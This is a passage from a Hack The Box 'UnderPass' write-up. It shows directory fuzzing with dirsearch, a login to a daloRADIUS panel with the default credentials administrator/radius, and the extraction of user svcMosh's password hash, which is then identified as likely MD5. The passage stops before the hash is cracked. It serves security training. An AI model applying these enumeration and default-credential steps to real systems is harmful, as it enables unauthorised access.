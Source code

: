 - I found the default service account on the Internet `administrator/radius` but no success. I did a FUZZ but using `seclists` and found another directory that can be logged in with the default account.

~~~
┌──(trit㉿chimp)-[~/HackTheBox/UnderPass]
└─$ dirsearch -u "http://underpass.htb/daloradius/app" -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 220545

Output File: /home/trit/HackTheBox/UnderPass/reports/http_underpass.htb/_daloradius_app_25-01-27_11-37-39.txt

Target: http://underpass.htb/

[11:37:39] Starting: daloradius/app/
[11:37:41] 301 -  330B  - /daloradius/app/common  ->  http://underpass.htb/daloradius/app/common/
[11:37:42] 301 -  329B  - /daloradius/app/users  ->  http://underpass.htb/daloradius/app/users/
[11:38:24] 301 -  333B  - /daloradius/app/operators  ->  http://underpass.htb/daloradius/app/operators/

~~~

- Then, I logged domain `http://underpass.htb/daloradius/app/operators` with default account `administrator/radius` and It works.


##  2. SSH Connection.

- **In Users -> Click Go to user list -> find user `svcMosh` and password hash `412DD4759978ACFCC81DEAB01B382403`**

- After that, in command used tool `hash-identifier` to find out the password encryption type.

~~~
┌──(trit㉿chimp)-[~/HackTheBox/UnderPass]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 412DD4759978ACFCC81DEAB01B382403

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
~~~
